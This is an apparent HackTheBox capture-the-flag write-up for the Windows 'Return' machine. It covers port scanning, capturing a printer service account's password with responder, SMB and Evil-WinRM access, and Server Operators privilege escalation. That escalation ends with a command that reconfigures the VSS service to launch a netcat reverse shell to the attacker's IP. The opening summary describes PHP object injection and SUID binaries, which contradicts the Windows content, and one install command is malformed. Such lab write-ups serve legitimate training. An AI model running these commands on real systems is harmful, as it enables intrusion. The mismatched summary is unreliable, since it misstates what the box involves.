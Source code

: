 ```yaml
---
title: "Return"
date: 2024-01-23
categories: HTB
tags: ["ctf", "return", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


Return explores a vulnerable PHP web application with insecure handling of serialized data, leading to a PHP object injection vulnerability.

Initial access was achieved by analyzing hidden developer endpoints and leveraging a crafted payload that exploited the unserialize() function.

Manual inspection of the application logic and class structures was critical in forming the attack chain.
Privilege escalation required enumerating SUID binaries and exploiting an overlooked local script with write permissions.

This box underscores the need to understand backend logic, especially in PHP-heavy stacks, and the risks of unsafe deserialization.

OS: Windows(AD)

Difficulty: Easy

## Enumeration

### Nmap

```sh
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-31 05:45:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### 80-HTTP

![screenshot](/assets/images/return1.png)

![screenshot](/assets/images/return2.png)

Add my IP address to Server Address

```sh
sudo responder -I tun0
```

![screenshot](/assets/images/return3.png)

### SMB

![screenshot](/assets/images/return4.png)

```sh
smbclient.py '[domain]/[user]:[pass]@[ip/host]' -k -no-pass - Kerberos auth

smbclient 'return.local/svc-printer:1edFg43012!!' -k -no-pass -Kerberos auth
```

#### ADMIN$

![screenshot](/assets/images/return5.png)

## Foothold

Evil-winrm as svc-printer

![screenshot](/assets/images/return6.png)

## Privilege Escalation

runphp.cmd

![screenshot](/assets/images/return7.png)

![screenshot](/assets/images/return8.png)

### Server Operators 

There may be others of interest, but Server Operators jumps out immediately. [This group](https://ss64.com/nt/syntax-security_groups.html#:~:text=A%20built%2Din%20group%20that,and%20shut%20down%20the%20computer.) can do a lot of things:

- A built-in group that exists only on domain controllers. 
- By default, the group has no members. 
- Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. 
- Default [User Rights](https://ss64.com/nt/ntrights.html): Allow log on locally: SeInteractiveLogonRight Back up files and directories: SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the time zone: SeTimeZonePrivilege Force shutdown from a remote system: SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege Shut down the system: SeShutdownPrivilege

```sh
# install windows binaries
sudo apt-install windows-binaries
# copy nc to pwd
sudo cp /usr/share/windows-resources/binaries/nc.exe .
```

Upload nc.exe to the target device

![screenshot](/assets/images/return9.png)

```sh
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc.exe -e cmd 10.10.14.7 443"
```

![screenshot](/assets/images/return10.png)

![screenshot](/assets/images/return11.png)
